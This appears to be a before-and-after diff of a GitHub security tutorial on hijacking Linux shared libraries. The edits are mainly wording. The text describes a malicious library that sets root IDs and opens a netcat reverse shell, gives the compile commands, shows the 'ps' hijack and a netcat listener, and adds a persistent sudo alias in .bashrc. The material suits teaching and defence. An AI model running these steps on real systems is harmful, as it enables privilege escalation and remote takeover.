

Before and after one commit to masjadaan/TechSecurityArticles, a Markdown page: Linux/HijackingSharedLibraries/HijackingSharedLibraries.md, 3 parts joined by grey strips. Shown: that part at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Linux/HijackingSharedLibraries/HijackingSharedLibraries.md
+++ b/Linux/HijackingSharedLibraries/HijackingSharedLibraries.md
@@ -41,9 +44,10 @@ void revShell() {
 }
 ```
 
-The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to denote the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.
+The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.
 
 ### Compiling the Malicious Library
+
 To compile our shared library, we use the following commands:
 
 ```sh
@@ -56,7 +60,8 @@ gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
 `-o`: Specifies the output file name.
 
 ### Create the Shared Library
-After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name libhax.so
+
+After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`
 
 ```sh
 gcc -shared mylibrary.o -o libmylibrary.so
@@ -64,11 +69,12 @@ gcc -shared mylibrary.o -o libmylibrary.so
 
 
 ### Identifying a Suitable Application
-After creating our malicious shared library, the next step is to utilize it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.
+
+After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.
 
 For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.
 
-Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these dependencies. The output will include something like:
+Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:
 
 ```sh
 ldd /bin/ps
@@ -93,12 +101,13 @@ cp libmylibrary.so libgpg-error.so.0
 
 ### Executing the Target Program
+
 Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.
 
 ```sh
 rlwrap nc -lvp 7777
 ```
 
-Now, with our environment prepared, we can execute the `ps` command on the victim's machine.
+Now, with our environment prepared, we can execute the `ps` command on the target's machine.
 
 ```sh
 ps
@@ -126,13 +136,13 @@ One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable i
 
-To circumvent this restriction, we can create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or more stealthily by adding it to the `.bashrc` file.
+One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
 - Temporary Alias:
--
+
 ```sh
 alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
 ```
 
 - Persistent Alias in .bashrc
--
+
 ```sh
 echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
 source ~/.bashrc
````
Also changed, not shown: other parts of Linux/HijackingSharedLibraries/HijackingSharedLibraries.md (+14 -8 lines).
